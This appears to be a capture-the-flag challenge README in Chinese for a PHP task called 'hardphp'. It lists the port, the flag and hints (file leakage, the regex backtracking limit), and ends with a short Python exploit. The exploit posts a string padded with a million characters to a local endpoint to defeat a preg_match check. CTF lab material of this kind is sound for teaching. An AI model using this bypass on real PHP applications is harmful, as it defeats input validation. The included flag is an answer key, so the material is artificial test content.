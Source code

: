 # 题目：hardphp

### 题目描述：试试大声说出：v我50！

### KEY: flag{haHa_tHiS_Is_V_mE50_F1@G}

### 配置信息：

1. 开放端口： `18080`

### 提示

1.文件泄露

2.正则表达式回溯上限

### exp

```python
import requests
data = {
    'a': 'vme50'+'a'*1000000+'!'
}
res = requests.post('http://localhost:18080/flagflagflaghhh.php',
                    data=data, allow_redirects=False)
print(res.text)
```

